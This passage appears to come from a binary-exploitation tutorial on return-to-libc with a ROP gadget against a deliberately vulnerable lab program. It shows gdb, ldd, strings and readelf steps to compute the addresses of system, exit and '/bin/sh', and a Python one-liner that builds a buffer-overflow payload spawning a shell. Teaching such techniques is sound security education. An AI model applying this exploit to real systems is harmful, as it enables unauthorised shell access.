 Now we got at usable gadget at 0x401203.
We will call this gadget to pop the address of a "/bin/sh" string into `%rdi`, then call `system()`, then `exit()`. What does the stack need to look like to accomplish this?

If we use `disas cp` in gdb, we see that the buffer starts at -0x20(%rbp). We need to fill the buffer, overwrite the saved frame pointer and overwrite ret with the address of our gadget. Our gadget pops from the top of the stack, so we need to put the address of the "/bin/sh" string after ret. At this point we could encounter a major obstacle since we are going to write addresses containing null bytes to the stack. Luckily, `scanf` does not mind null bytes (unlike e.g. `strcpy`), so this is not a problem.

> We later look at how 0-byte addresses can be handled when the vulnerable program uses a function that stops writing at the first null byte (like `strcpy`).

Now, we can find the address of "/bin/sh", `system()` and `exit()`.

> In a previous section we found the function addresses by using gdb's `print` (`p`) command, while the string (which is in libc) was found with gdb's `find` command.

One way to accomplish this is to first find the base address of libc:

```bash
$ ldd r2l2
...
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7de9000)
...
```

And then find the offset of the string and functions:

```
$ strings -tx /lib64/libc-2.28.so  | grep bin/sh
 186519 /bin/sh
$ readelf -s /lib64/libc-2.28.so | grep system@
...
1418: 0000000000045c30    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
...
$ readelf -s /lib64/libc-2.28.so | grep exit
...
135: 000000000003ae30    32 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.2.5
...
```

Finding the addresses is now a matter of summing the base address and the offsets:

```
system:    0x00007ffff7de9000 + 45c30  = 0x00007ffff7e2ec30
exit:      0x00007ffff7de9000 + 3ae30  = 0x00007ffff7e23e30
"/bin/sh": 0x00007ffff7de9000 + 186519 = 0x00007ffff7f6f519
```

The gadget is at 0x0000000000401203. The buffer is 0x20 (32) bytes, and the saved frame pointer is of course 8 bytes.

Now we are ready to create the exploit. Let's make a binary file that we can feed to stdin in both gdb and in the terminal:

```bash
$ python -c 'print 40 * "a" + "\x00\x00\x00\x00\x00\x40\x12\x03"[::-1] + "\x00\x00\x7f\xff\xf7\xf6\xf5\x19"[::-1] + "\x00\x00\x7f\xff\xf7\xe2\xec\x30"[::-1] + "\x00\x00\x7f\xff\xf7\xe2\x3e\x30"[::-1]' > pl.bin
$ xxd pl.bin
00000000: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
00000010: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
00000020: 6161 6161 6161 6161 0312 4000 0000 0000  aaaaaaaa..@.....
00000030: 19f5 f6f7 ff7f 0000 30ec e2f7 ff7f 0000  ........0.......
00000040: 303e e2f7 ff7f 0000 0a                   0>.......
```
